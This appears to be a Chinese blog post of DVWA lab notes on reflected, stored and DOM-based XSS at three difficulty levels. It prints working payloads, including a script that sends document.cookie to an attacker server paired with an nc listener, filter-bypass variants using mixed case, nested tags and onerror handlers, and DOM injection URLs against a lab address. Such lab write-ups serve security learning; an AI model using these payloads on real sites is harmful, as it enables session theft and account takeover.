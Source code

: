 ```yaml
---
layout: post
title: XSS
subtitle: XSS
date: 2023-08-05 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
category: 靶场实战
---
```

# XSS
## XSS(Reflected)

### LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```
### MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<img src="" onerror="alert(document.cookie)"/>
```
### HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

## XSS(Stored)

### LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### HIGH

name为注入点

## XSS(DOM)

### LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```
### MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
```
### HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```